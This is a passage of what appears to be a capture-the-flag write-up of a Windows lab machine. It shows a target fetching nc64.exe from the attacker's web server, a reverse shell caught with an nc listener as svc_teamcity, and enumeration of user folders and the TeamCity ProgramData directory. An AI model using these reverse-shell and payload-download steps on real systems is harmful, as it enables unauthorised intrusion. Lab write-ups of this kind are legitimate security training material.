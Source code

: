 ![image-20231120155911552](/img/image-20231120155911552.png)

A few seconds after submitting there’s a request at the webserver:

```
10.10.11.207 - - [20/Nov/2023 16:00:22] "GET /nc64.exe HTTP/1.1" 200 -

```

Then a shell at `nc` as svc\_teamcity:

```

oxdf@hacky$ rlwrap nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.207 49367
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\TeamCity\buildAgent\work\74c2f03019966b3e> whoami
coder\svc_teamcity

```

## Shell as e.black

### Enumeration

#### Home Directories

The home directory for svc\_teamcity is basically empty. There are other users on the box:

```

PS C:\Users> dir

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/28/2022   8:14 PM                Administrator
d-----        6/29/2022   9:34 PM                e.black
d-r---        6/28/2022   8:14 PM                Public
d-----        11/9/2022   9:42 AM                svc_teamcity

```

`user.txt` must be with e.black.

#### TeamCity

There’s not much of interesting the `C:\TeamCity` directory. However, in looking around, there’s a `JetBrains\TeamCity` directory in `C:\ProgramData`:

```

PS C:\programdata\JetBrains\TeamCity> ls

    Directory: C:\programdata\JetBrains\TeamCity

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/20/2023   9:15 PM                config
d-----        11/3/2022   3:08 PM                lib
d-----        11/3/2022   3:09 PM                plugins
d-----       11/20/2023   9:15 PM                system

```